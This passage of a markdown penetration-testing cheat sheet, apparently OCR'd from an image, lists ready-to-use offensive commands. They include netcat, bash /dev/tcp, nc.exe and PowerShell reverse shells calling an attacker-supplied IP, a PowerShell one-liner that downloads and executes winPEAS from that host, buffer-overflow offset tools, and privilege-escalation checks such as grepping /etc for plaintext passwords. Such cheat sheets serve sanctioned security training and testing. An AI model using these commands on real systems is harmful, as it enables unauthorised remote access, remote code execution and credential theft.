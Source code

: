 | **Command** | **Usage / Options** |
|------------|----------------|
| `nc -e /bin/bash <YOUR_IP> <PORT>` | Netcat reverse shell |
| `bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1` | Bash reverse shell |
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell (Linux) |

### 4.2 Windows Reverse Shells

| **Command** | **Usage / Options** |
|------------|----------------|
| `nc.exe -e cmd.exe <YOUR_IP> <PORT>` | Windows reverse shell |
| `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<YOUR_IP>', <PORT>);"` | PowerShell reverse shell |

---
## 5. Buffer Overflow

| **Command** | **Usage / Options** |
|------------|----------------|
| `msf-pattern_create -l 3000` | Generate unique pattern |
| `msf-pattern_offset -q <EIP_value>` | Find offset in buffer overflow |
| `!mona find -s "\xff\xe4" -m <module>` | Find JMP ESP in Immunity Debugger |

---
## 6. Privilege Escalation

### 6.1 Linux Privilege Escalation

| **Command** | **Usage / Options** |
|------------|----------------|
| `sudo -l` | Check sudo privileges |
| `find / -perm -4000 2>/dev/null` | Find SUID binaries |
| `grep -Ri password /etc/` | Search for plaintext passwords |

### 6.2 Windows Privilege Escalation

| **Command** | **Usage / Options** |
|------------|----------------|
| `whoami /priv` | List privileges (look for SeImpersonate) |
| `wmic service get name,displayname,pathname,startmode` | Check for unquoted service paths |
| `powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<YOUR_IP>/winPEAS.bat')"` | Run WinPEAS for Windows privesc |

---
## 7. Active Directory Attacks
